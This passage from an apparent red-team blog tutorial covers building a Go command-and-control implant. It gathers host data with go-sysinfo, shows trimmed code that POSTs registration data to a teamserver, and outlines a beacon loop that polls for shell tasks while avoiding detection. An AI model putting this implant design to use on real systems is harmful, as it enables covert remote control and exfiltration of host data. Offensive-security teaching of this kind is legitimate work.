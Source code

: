 There's a good amount of information about the operating system that needs to be obtained to be able to send this request and have it have value. This is where our first external package comes in, [Elastic's `go-sysinfo`](https://github.com/elastic/go-sysinfo). This package helps abstract away some of the operating system specific details we would need to work around to get information about the host we're on. If I was a good developer, I would do some testing to see what traces the library might be leaving, but I'm not.

However, I'm inclined to believe there's at least a little bit of merit to using this package. It's created by Elastic, who likely intended for it to be used to collect data from your production or lab environment, not necessarily intended for recon purposes. So, I would argue it's actually a pretty good library to use to blend in (or I might just be huffing [copium](https://gumlet.assettype.com/afkgaming%2F2021-08%2F79649079-d0e7-4acd-853b-6a2b92797da3%2Fcopium_png.png?auto=format%2Ccompress&dpr=1.0&w=1200)).

We can add this to the project by running the below command in the directory we're writing code.
```shell
go get github.com/elastic/go-sysinfo
```

Once we have our registration JSON put together, we need to send it.

```go
// [...trim]
req, err := http.NewRequest("POST", url, bytes.NewBuffer(append(agentHeader, []byte(requestDat)...)))
checkError(err)
req.Header.Set("User-Agent", userAgent)
req.Header.Set("Content-Type", "application/x-www-form-urlencoded")
req.Header.Set("Content-Length", strconv.Itoa(size))

client := &http.Client{}
res, err := client.Do(req)
if (err != nil){
	return "failed"
}
defer res.Body.Close() // defer is a keyword that lets us wait until the current function ends to actually call this. very useful for asynchronous stuff

resBody, _ := ioutil.ReadAll(res.Body)
if (string(resBody) == "" || resBody == nil) {
	return "failed"
}

return string(resBody)
// [trim...]
```

If we're successful, we should get a response from the server that says `"successful"`. From here, the pattern becomes very simple.
1. Check in with the teamserver every so often for new tasks. I say "every so often" because having a persistent connection, or making a lot of requests very quickly, is highly suspicious.
2. If we get a new task, execute it based upon some predefined syntax. For instance, I might define the payload for a shell command to be something like `shell arg1 arg2 arg3 ...`. We then parse  this and work through it in the implant.
3. Once we've completed a task, return the output, or at least some message, to the teamserver, so the operator can see it and most likely store it for later use.
